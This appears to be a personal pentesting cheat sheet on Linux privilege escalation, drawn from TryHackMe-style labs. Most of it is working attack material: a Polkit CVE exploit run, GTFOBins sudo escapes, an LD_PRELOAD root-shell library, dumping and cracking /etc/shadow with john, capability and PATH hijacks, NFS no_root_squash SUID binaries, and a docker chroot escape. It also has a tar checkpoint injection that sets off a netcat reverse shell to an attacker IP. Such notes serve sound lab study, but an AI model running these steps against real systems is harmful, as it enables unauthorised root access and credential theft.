

Linux
Linux Preveledge Escalation
https://github.com/CybeXRay/CVE-2021-3560-Polkit-Privilege-Esclation
• This exploit works only on distributions that have installed accountsservice and gnome-control-center and it must have polkit version 0.113 (or later) OR 0-105-26 (Debian fork of polkit).
As this is a timing based exploit, it might be required to run multple times. (I got in 7-8th time)
It creates a sudo user (default-secnigma) with the password we provide. Then just su into this user & run sudo bash to get into root.
./poc.sh -p=12345
Or if we want custom username:
./poc.sh -u=cybexray -p=12345
https://github.com/DominicBreuker/pspy
pspy can be used to list/view all processes using a non-root account. This can be helpful to find misconfigurations
Upload to victim machine as normal user and run it
./pspy64s
THM:
Local Prevelege Escalation Guide/Walkthrough for Windows/Linux in PDF:
https://github.com/sagishahar/lpeworkshop
Key Commands:
hostname
uname -a
lsb_release -a
cat /proc/version
cat /etc/issue
cat /etc/passwd
history
ifconfig
ip route : To see which network routes exists
ps
netstat
find
ss -tl : Command to investigate sockets for connections
Automated Enumeration Tools:
• LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
• LinEnum: https://github.com/rebootuser/LinEnum
• LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
• Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
• Linux Priv Checker: https://github.com/linted/linuxprivchecker
To Have Prevelge Escalation from sudo allowed programs:
https://gtfobins.github.io
FIND
sudo find . -exec /bin/sh \; -quit
LESS
sudo less /etc/profile
!/bin/sh
NANO
sudo nano
^R^X
reset; sh 1>&0 2>&0
NMAP
sudo nmap --interactive
nmap> !sh
Using LD_PRELOAD in sudo file:
LD_PRELOAD is a function that allows any program to use shared libraries. This blog post will give you an idea about the capabilities of LD_PRELOAD. If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID.
The steps of this privilege escalation vector can be summarized as follows;
-Check for LD_PRELOAD (with the env_keep option)
-Write a simple C code compiled as a share object (.so extension) file
-Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows;
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.
We need to run the program by specifying the LD_PRELOAD option, as follows;
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
Using SUID:
find / -type f -perm -04000 -ls 2>/dev/null will list files that have SUID or SGID bits set.
Then check GTFOBins for vulnerable binaries that are allowed SUID.
Eg.
If nano has SUID set. We can access /etc/passwd and /etc/shadow as root
Get the passwd and shadow files.
unshadow passwd.txt shadow.txt > passwords.txt
Now use John with a good wordlist to crack the passwords.txt
OR
Add a new user.
openssl passwd -1 -salt THM Password1 ---> It will create a password
We will then add this password with a username to the /etc/passwd file.
Copy the root details. See below

If base64 has suid set
base64 /etc/passwd | base64 --decode
base64 /etc/shadow | base64 --decode
Copy the required accounts contents to local machine with name password.txt and shadow.txt
unshadow password.txt shadow.txt > crackMe.txt
Then crack it
john --wordlist=/usr/share/wordlists/rockyou.txt crackMe.txt
Using Capabilities:
Capabilities are used to give granular preveleges to binary and processes.
man capabilites -→ More Info
getcap -r / : Tool to list enabled capabilites.
getcap -r / 2>/dev/null : As a non preveleged user it gives a lot of error. Thus we add 2>/dev/null to see only the output
eg. cap_setuid+ep

For example: vim has capabilities of setuid.
Note: If we list vim binary, we can't see any differnece.

Now, we can use vim from GTFOBin capabilities section
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
Note: py3 → python3 or py → python or py2 → python2
Note: view can be used using the same way as it is also having setuid capability
./view -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
eg. cap_chown+ep

/usr/local/bin/ruby -e "File.chown(1002, 1002, '/etc/shadow')"
This is change the ownership of the /etc/shadow file to our controlled user. Next, we can add a root password & switch to root.
Using Cron Jobs:
Cron job configurations are stored as crontabs (cron tables) to see the next time and date the task will run.
Each user on the system have their crontab file and can run specific tasks whether they are logged in or not. As you can expect, our goal will be to find a cron job set by root and have it run our script, ideally a shell.
Any user can read the file keeping system-wide cron jobs under /etc/crontab
If we find any root user scripts that we can access and modify, we can add a reverse shell and it will be run as root.
Note: Sometimes /etc/crontab will have scripts which are already deleted. These can be exploited if full path is not mentioned.
Croon job will look for the script in the PATH mentioned in /etc/crontab
Using PATH:
Consider a program:
#include<unistd.h>
void main()
{
setuid(0);
setgid(0);
system("thm");
}
Created by root & SETUID bit is set. Thus this program can be run by anyone as root.
Now we need to create a file named thm and have /bin/bash in it.
echo “/bin/bash” > thm
Now add the location (say /tmp) of thm to PATH.
export PATH=/tmp:PATH
now run the program with suid bit. We will have root bash.
Using NFS (2 Methods):
To check if NFS is active.
rpcinfo -p | grep nfs
eg.
To view all Network File Sharing (NFS) configurations.
cat /etc/exports
eg.

The critical element for this privilege escalation vector is the “no_root_squash” option you can see above. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.
To view network shares from attacker machine:
showmount -e <Target IP>
eg.

Mount the share with ("no_root_squash") enabled
mkdir /tmp/backup_on_attacker_machine
mount -o rw 10.10.78.5:/home/backup /tmp/backup_on_attacker_machine
Method-1:
Create a program in the share: Note: Use StongRoot (CybeXRay Guides → Wiki Miscellaneous → StrongRoot)
#include<unistd.h>
int main()
{
setuid(0);
setgid(0);
system("/bin/bash");
}
Compile it and SETUID bit on it to be run by root.
gcc nfs_exploit.c -o nfs_exploit -w [-w: for supress warnings]
chmod u+s nfs_exploit
Now run the program in the target machine. We will have root access.
Note: It will give full root access.
Method-2:
Target Machine:
Copy the local bash executible from the target machine to the NFS share.
Eg.

Attacker Machine:
Connect the NFS share as root. Then check the bash executible permission.
Next change it to be owned by root and have SUID bit set.
chown root:root bash
chmod u+s bash
Eg.

Target Machine:
Run the bash program with -p option to preserver the permissiom
./bash -p

Note: It will give euid root access.
Using Tar for Lateral Movement:
Note: The same concept can be used for privilege escalation is the script file is owned by root and haa SUID set.
And the directory being backed up should be writable by the current user.
Source ------→ THM: The Marketplace
In our scenario, the script running tar is owned by user michael.
However, user jake has wrtie access to the directory being backed up.
Steps to Follow:
Create a file shell.sh with the following contents.
!#/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.11.72.31 8888 >/tmp/f
we have to make it executible and add two files in the same folder. It will help to run the shell.sh
chmod +x shell.sh
touch /opt/backups/"--checkpoint=1"
touch /opt/backups/"--checkpoint-action=exec=sh shell.sh"
Now start listner and run the backup.sh as michael
sudo -u michael /opt/backup/backup.sh
We will get a reverse connection as the user michael
Using Docker:
Command to list container images.
docker images
docker image ls

We see that alpine docker image is running.
We check GTFOBins for docker privilege escalation.
I try to run the exploit directly, but it needs a TTY. So we create a python PTY and run it.
docker run -v /:/mnt --rm -it alpine chroot /mnt sh